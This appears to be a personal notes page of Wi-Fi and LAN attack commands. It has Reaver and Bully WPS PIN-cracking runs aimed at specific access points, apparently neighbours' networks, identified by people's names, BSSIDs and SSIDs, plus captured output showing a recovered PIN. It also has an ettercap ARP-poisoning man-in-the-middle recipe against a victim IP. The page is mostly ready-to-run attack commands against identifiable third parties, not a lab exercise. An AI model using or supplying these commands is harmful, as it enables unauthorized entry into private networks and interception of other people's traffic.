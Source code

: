```bash
# Attack (Domingo) Santos
sudo reaver --interface wlan0mon --bssid 98:7E:CA:1C:B4:7F --channel 1 --dh-small --no-nacks --delay 15 -vv

# Attack (Bety1310) Santos
sudo reaver --interface wlan0mon --bssid 94:6A:77:27:29:EE --channel 11 --dh-small --no-nacks --delay 15 -vv

# Attack (Regina) Santos
sudo reaver --interface wlan0mon --bssid 38:6B:1C:8C:11:F4 --channel 5 --dh-small --no-nacks --delay 15 -vv -w
```



## Bully

```bash
# APMP
sudo bully --bssid D8:C6:78:0F:73:14 --essid VIVO-7314 --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
#[!] Received disassociation/deauthentication from the AP
#[+] Rx(  M1  ) = 'EAPFail'   Next pin '20075361'

# Mi 8 Lite
sudo bully --bssid 5E:8F:53:F6:37:D0 --essid "MI 8 Lite" --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
```



## ARP Poison

[How Hackers SNiFF (capture) network traffic // MiTM attack](https://www.youtube.com/watch?v=-rSqbgI7oZM)

```bash
# Scan network looking for devices
sudo nmap -sn 192.168.0.1/24

# Man-in-the-Middle (MiTM) attack
sudo ettercap -T -S -i {interface} -M arp:remote /{ip router}// /{ip vítima}//
sudo ettercap -T -S -i wlan0mon -M arp:remote /192.168.0.1// /192.168.0.110//
#-T	text-only
#-S	no use ssl

# After capture using wireshark
sudo wireshark
```



## Filtros no *Wireshark*

